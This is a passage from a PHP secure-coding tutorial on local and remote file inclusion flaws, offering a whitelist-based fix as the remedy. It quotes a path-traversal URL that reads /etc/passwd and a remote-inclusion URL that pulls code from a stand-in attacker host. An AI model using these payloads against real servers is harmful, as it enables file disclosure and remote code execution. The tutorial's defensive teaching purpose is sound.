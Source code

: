 The template then normally contains something like this:

<pre><code>&lt;?php include($_GET[’page’]);?&gt;</code></pre>

If you call <code>https://example.com/template.php?page=about-us.php</code>, this would load the "About Us" document and include it in the template where the code is located.

It would also allow someone to check out all of the other interesting things on your server. For example, <code>https://example.com/template.php?page=../../../../../../../../etc/passwd%00</code> or the like would allow an attacker to read your <code>passwd</code> file.

If your server allows for remote files with <code>include()</code>, you could also inject a file from another server, like <code>https://example.com/template.php?page=https://evilsite.net/exploitcode/2.txt?</code>. Remember, these text files will be executed as PHP inside your other PHP file and thus have access to everything. A lot of them contain mass-mailers or check your system for free space and upload options to store data.

In short: **never, ever allow an unfiltered URI parameter to become part of a URI that you load in PHP or print out as an <code>href</code> or <code>src</code> in the HTML**. Instead, use pointers:

<pre><code>&lt;?php
$sites = array(
  ’about’=&gt;’about-us.php’,
  ’contact’=&gt;’contact.php’,
  ’clients’=&gt;’clients.php’,
  ’portfolio’=&gt;’portfolio.php’,
  ’home’=&gt;’index.php’,
  ’partners’=&gt;’partners.php’
);
if( isset($_GET[’page’]) &amp;&amp;
    isset($sites[$_GET[’page’]]) &amp;&amp;
    file_exists($sites[$_GET[’page’]]) ){
      include($sites[$_GET[’page’]]);
} else {
  echo ’This page does not exist on this system.’;
}
?&gt;</code></pre>

This way, the parameters become not a file name but a word. So, <code>https://example.com/template.php?page=about</code> would include <code>about-us.php</code>, <code>https://example.com/template.php?page=home</code> would include <code>index.php</code> and so on. All other requests would trigger the error message. Note that the error message is in our control and not from the server; or else you might display information that could be used for an exploit.

Also, notice how defensive the script is. It checks if a <code>page</code> parameter has been sent; then it checks if an entry for this value exists in the <code>sites</code> array; then it checks if the file exist; and then, and only then, it includes it. Good code does that... which also means it can be a bit bigger than expected. That’s not exactly "Build your own PHP templating system in 20 lines of code!" But it’s much better for the Web as a whole.

Generally, defining all of the variables you will use before you use them is a good idea. This makes it safer even in PHP set-ups that have globals registered. The following cannot be cracked by calling the script with an <code>authenticated</code> parameter:

<pre><code>$authenticated = false;
if($_POST[’username’] == ’muppet’ &amp;&amp;
   $_POST[’password’] == ’password1’) {
    $authenticated = true;
}
if($authenticated) {
  // do something only admins are allowed to do
}</code></pre>
